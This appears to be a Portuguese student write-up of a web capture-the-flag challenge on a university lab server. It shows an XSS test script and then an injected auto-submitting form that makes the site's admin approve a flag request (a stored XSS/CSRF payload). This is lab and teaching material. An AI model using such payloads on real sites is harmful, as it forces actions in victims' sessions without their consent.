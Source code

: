 Para realizar este ctf, teremos de trabalhar a partir desta página:

![Alt text](image-8.png)

A partir dessa página, apercebemo-nos que poderíamos testar se input que aí pediam era filtrado ou não. Para testar essa condição, decidimos criar uma função `alert()`, da seguinte maneira:

```
<script>alert("Teste");</script>
```

Obtendo este resultado:

![Alt text](image-10.png)

A seguir, colocamos este script...

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/%7Binserir ID do pedido}/approve" role="form"><div class="submit">  <input type="submit" id="giveflag" value="Give the flag"></div></form><script>document.getElementById("giveflag").click();</script>
```

...no input da página e submetemos assim.

O resultado que nos dará será este:

![Alt text](image-6.png)

Voltamos atrás da página e visualizamos o código fonte desta, graças às funcionalidades do noso browser e alteramos o url da página, adicionando ao request desta, o id inicial, o que nos dá este resultado.


![Alt text](image-7.png)


Ao vizualizar esta imagem é possível perceber que o id da nossa flag encontra-se presente.


![Alt text](image-9.png)